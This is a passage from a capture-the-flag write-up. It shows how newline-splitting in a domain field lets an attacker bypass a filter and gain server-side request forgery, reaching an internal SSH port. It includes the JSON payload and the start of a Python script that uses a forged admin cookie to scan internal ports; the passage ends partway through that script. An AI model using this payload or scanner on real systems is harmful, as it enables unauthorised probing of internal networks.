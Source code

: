 This one gives us a legitimate response from **1234.com!**

---

For some reason, the endpoint **splits** our payload on the `\n` character and does a request for **each
part**.

This means we should be able to **bypass the filter** and use the endpoint to request **any website/port**.

Here's an example payload which respects the filter, but causes 3 requests,
including one to `127.0.0.1:22` :
```json
{"domain" : "212.test.com\n127.0.0.1:22\n1234.com"}
```

And here is the resulting response :
```bash
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.
```

**We've successfully queried a non HTTP service running on 127.0.0.1:22.**

## :triangular_flag_on_post: Finding the Flag :triangular_flag_on_post:

Now that we have our **SSRF**, what do we do now? We scan some **ports**!

If we assume that there's an internal service running on **127.0.0.1**,
our next step will be to find the port.

Since we don't want to do this by hand, I created a python script
which automates the process of sending a malicious domain and reading the response.
It does this for ports **0** to **2999**.

```python
#!/usr/bin/env python

import requests
import json
import re
import base64
import sys

url = "http://admin.acme.org/"
headers = { "Cookie" : "admin=yes", "Content-Type" : "application/json" }

def populate(host, port, uri):
    """ Returns id to be used by read.php """

    # Create a malicious domain containing 3 requests : 212, host:port/uri and .com
    data = { "domain" : "212\n{}:{}/{}\n.com".format(host, port, uri) }

    # Send the request
    response = requests.post(url, json=data, headers=headers)

    # Load the JSON response
    response = json.loads(response.text)

    # Fetch the ID containing the response of host:port/uri
    read_id = int(re.findall("id=(\d+)", response['next'])[0]) - 1
    return read_id

def read(read_id):
    """ Read and decode response for a given ID """
    params = { "id" : read_id }
```